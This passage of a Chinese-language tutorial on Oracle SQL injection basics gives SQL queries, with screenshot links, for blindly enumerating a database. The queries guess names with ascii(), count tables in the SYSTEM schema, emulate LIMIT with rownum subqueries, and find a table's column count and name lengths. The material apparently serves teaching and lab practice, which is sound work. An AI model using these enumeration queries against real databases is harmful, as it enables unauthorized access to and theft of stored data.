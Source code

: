 `ascii('A') = 65`
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_50_P2cjbz9J.png)

依次猜解，可获取库的名称，由于没有limit，在子查询中，distinct 去重owner会消耗过多的时间，所以尽量使用手工注入，且要获取其他库的数据也没有太大的必要

**获取当前数据库的表**

```sql
-- 首先获取当前数据库存在多少表
select count(table_name) from all_tables where owner = 'SYSTEM'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_50_G2O7aokR.png)



```sql
-- 接着使用子查询，一个一个求解
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM')t) where no = 1
```
如猜解USERS_YFRUVP表
```sql
-- 
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM' and table_name not like '%$%')t)where no = 4
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_49lgmhcJ.png)

中间省略...

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_sX4YBShL.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_51_R3wzIqrE.png)



**获取某表中的字段**
以USERS_YFRUVP表为例

```sql
-- 求字段个数
select count(*) from all_tab_columns where table_name = 'USERS_YFRUVP'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_52_83pRx7LD.png)



```sql
-- 接着求解字段的长度,子查询实现limit
select length(column_name) from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_52_31YQLNwE.png)

在得知长度为15的情况下，开始猜解列名

